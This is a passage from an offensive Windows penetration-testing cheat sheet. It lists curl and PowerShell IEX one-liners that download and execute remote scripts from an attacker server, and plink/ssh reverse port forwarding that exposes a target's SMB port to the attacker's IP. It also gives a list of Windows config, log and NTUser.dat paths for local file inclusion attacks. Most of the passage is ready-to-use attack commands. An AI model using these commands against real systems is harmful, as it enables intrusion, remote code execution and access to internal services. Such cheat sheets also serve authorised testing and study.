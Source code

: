 ```
curl http://server/file -o file
curl http://server/file.bat | cmd
```

And with PowerShell

```powershell
IEX(curl http://server/script.ps1);Invoke-Blah
```

## Port Forwarding


This is useful for exposing inside services that aren't available from outside the machine, normally due to firewall settings.

Upload `plink.exe` to target.

Start SSH on your attacking machine.

For example to expose SMB, on the target run:

```
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

As of Windows 10 1803 (April 2018 Update), ssh client is now included and turned on by default! So you're able use ssh to do port forwarding right out of the box now. 

```
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```


## Local File Inclusion List

This is not an exhaustive list, installation directories will vary, I've only listed common ones.

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
```